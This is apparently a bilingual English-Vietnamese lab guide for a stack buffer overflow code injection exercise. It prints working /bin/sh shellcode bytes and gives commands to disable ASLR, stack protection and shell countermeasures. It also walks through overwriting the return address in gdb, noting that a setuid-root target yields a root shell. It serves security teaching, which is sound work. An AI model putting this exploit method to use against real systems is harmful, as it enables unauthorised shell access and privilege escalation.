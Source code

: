 # Tips for code injection lab:
### Shellcode
1. Write shellcode program in assembly language (sh.asm), compile with nasm (sh.o) then link with ld to generate executable file (sh)<br>
(Viết chương trình shellcode bằng hợp ngữ, biên dịch (nasm) và liên kết (ld) để tạo chương trình thực thi)
2. Run the following script to get the hex string of shellcode:<br>
(Chạy bash script dưới đây ở dòng lệnh để tạo chuỗi hex của shellcode:)<br>
`$> for i in $(objdump -d shell |grep "^ " |cut -f2); do echo -n '\x'$i; done;echo`
<br>--> hex string generated: `\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\x31\xc0\xb0\x0b\xcd\x80`<br>
or run this script to generate shellcode binary file:<br>
(Hoặc chạy bash script dưới đây ở dòng lệnh để sinh binary file mã shellcode nếu inject bằng cách đọc file)<br>
`$> for i in $(objdump -d sh |grep "^ " |cut -f2); do echo -ne '\x'$i >> sh.bin; done;` <br>
3. Estimate buffer size *nnn* of vulnerable program with input strings of various length (eg. `./vuln.out $(python -c "print('a'*nnn)"`)<br>
(Ước lượng size *nnn* từ đỉnh stack đến eip khi biên dịch chương trình với option `-fno-stack-protector` khi gcc)<br>
4. Compute the distance between buffer (esp) and return address to determine the padding bytes will be injected along with the sheelcode.<br>
(Tính toán khoảng cách từ buffer đến eip để xác định padding bytes chèn cùng với shellcode)<br>
### Prepare for the lab environment:
1. Turn off OS's address space layout randomization (`sudo sysctl -w kernel.randomization_va_space=0`)<br>
(Tắt chế độ cấp phát địa chỉ stack ngẫu nhiên khi load chương trình của HĐH)<br>
2. Compile program with options to defeat stack protecting mechanism and code execution o stack:<br>
(Biên dịch chương trình c với các option tắt cơ chế bảo vệ stack và cho phép thực thi code trên stack)<br>
`$> gcc vuln.c -o vuln.out -fno-stack-protector -z execstack`<br>
3. Creat link to zsh instead of default dash to turn off bash countermeasures of Ubuntu 16.04:<br>
`$> sudo ln -sf /bin/zsh /bin/sh`<br>
### Conducting the attack
1. Load vuln.out in gdb <br>
(Nạp vuln.out trong gdb)<br>
`$> gdb vuln.out`<br>
2. Set break point after strcpy instruction <br>
(Đặt điểm dừng chương trình sau lệnh strcpy)<br>
3. Run program in gdb with injecting argument <br>
(Khởi chạy chương trình trong gdb, chèn chuỗi hex của shellcode trên dòng lệnh)<br>
`(gdb-peda)r $(python -c "print(<injecting shellcode along with padding bytes>+'\xff\xff\xff\xff')")`<br>
4. Watch the stack memory from esp (stack top):<br>
(Quan sát bộ nhớ stack từ esp)<br>
`(gdb-peda) x/80xb $esp`
5. Identify the return address while watching out the stack, then replace `\xff\xff\xff\xff` with the value of esp<br>
(Xác định vị trí của địa chỉ trả về trong stack, thay thế `\xff\xff\xff\xff` với giá trị của esp)<br>
`set *<address of return address> = <address of esp>`<br>
6. Continue executing program, you should now in the new bash shell:<br>
(Thực thi tiếp chương trình, sẽ thấy xuất hiện dấu nhắc shell --> thực thi được shellcode)<br>
`(gdb-peda) continue`<br>
`$_` <-- you are in the new bash. If vuln.out is set with root as the owner, you will be root in the new shell!  <br>
7. Return to gdb<br>
`$>exit`<br>
`(gdb-peda)`




